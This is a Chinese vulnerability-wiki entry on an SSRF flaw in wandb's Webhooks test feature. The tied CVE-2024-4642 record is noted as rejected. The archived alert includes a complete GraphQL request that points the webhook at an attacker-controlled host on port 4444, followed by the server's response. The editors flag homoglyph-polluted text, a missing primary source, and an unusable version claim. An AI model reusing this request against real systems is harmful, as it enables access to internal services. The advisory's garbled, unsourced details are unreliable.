


# 【漏洞预警】wandb信息泄露漏洞(CVE-2024-4642)

## 编号角色补核（2026-10-04）

本次只确认编号在本文主题中的主编号／引用角色；版本、修复、截图及其他技术主张仍按下方具体待核说明阅读。旧字段和归档正文保持原值，较早的角色待核说明保留为历史记录。 CNA 记录状态为 REJECTED；保留本篇声称的主编号并设置 identifier_status 为 rejected，不纳入有效 CVE 导航。撤销理由按公开记录原文保留：`This CVE ID has been rejected or withdrawn by its CVE Numbering Authority.`。

核对依据：[CNA 记录](https://cveawg.mitre.org/api/cve/CVE-2024-4642)。这些记录支持编号／产品对应关系或编号状态，不替代本篇原始出处。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Weights & Biases Webhooks
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：SSRF非仅信息泄露，RCE为后续条件链不是已展示结果；需有Webhook权限团队成员；影响<=latest不可执行且与已有更新无具体版本矛盾
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. SSRF非仅信息泄露，RCE为后续条件链不是已展示结果
2. 需有Webhook权限团队成员
3. 影响<=latest不可执行且与已有更新无具体版本矛盾
4. 整个HTTP请求响应被粘一行不可复用
5. 302重定向服务如何构造/目标证据未给
6. 无一手来源/修复commit，同形字符污染

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

cexlife  飓风网络安全   2024-05-17 17:02  
  
  
  
**漏洞描述:**  
  
由于HTTP302重定向处理不当,ԝаndb/ԝаndb存储库中存在服务端请求伪造(SSRF)漏洞,此问题允许有权访问'Uѕеr ѕеttinɡѕ->Wеbhооkѕ'函数的团队成员利用该漏洞访问内部HTTP(ѕ)服务器,在严重的情况下,例如在ＡWS实例上,这可能会被滥用以在受害者的机器上实现远程代码执行,该漏洞存在于最新版本的存储库中。  
  
  
  
POST /graphql HTTP/1.1Host: ip:8080User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0Accept: */*Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflate, brReferer: http://ip:8080/settingscontent-type: application/jsonX-Origin: http://ip:8080Content-Length: 572Origin: http://ip:8080Connection: close{"operationName":"TestGenericWebhookIntegration","variables":{"entityName":"test","urlEndpoint":"http://{your-IP}:4444","requestPayload":"{\n\n\n\n\n}"},"query":"mutation TestGenericWebhookIntegration($entityName: String!, $urlEndpoint: String!, $accessTokenRef: String, $secretRef: String, $requestPayload: JSONString) {\n  testGenericWebhookIntegration(\n    input: {entityName: $entityName, urlEndpoint: $urlEndpoint, accessTokenRef: $accessTokenRef, secretRef: $secretRef, requestPayload: $requestPayload}\n  ) {\n    ok\n    response\n    __typename\n  }\n}\n"}HTTP/1.1 200 OKServer: nginxDate: Mon, 18 Mar 2024 14:48:04 GMTContent-Type: application/json; charset=utf-8Content-Length: 201Connection: closeVary: OriginX-Content-Type-Options: nosniffX-Ratelimit-Limit: 1000X-Ratelimit-Remaining: 1000Cache-Control: no-store, no-cache, must-revalidate, proxy-revalidate, max-age=0{"data":{"testGenericWebhookIntegration":{"ok":true,"response":"{\"response\":\"\\u003ch1\\u003eSSRF secret\\u003c/h1\\u003e\\n\",\"error\":\"\"}","__typename":"TestGenericWebhookIntegrationPayload"}}}**影响产品:**  
  
wandb/wandb<=latest **修复解决方案:**目前官方已有可更新版本,建议受影响用户升级至最新版本   
  

---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
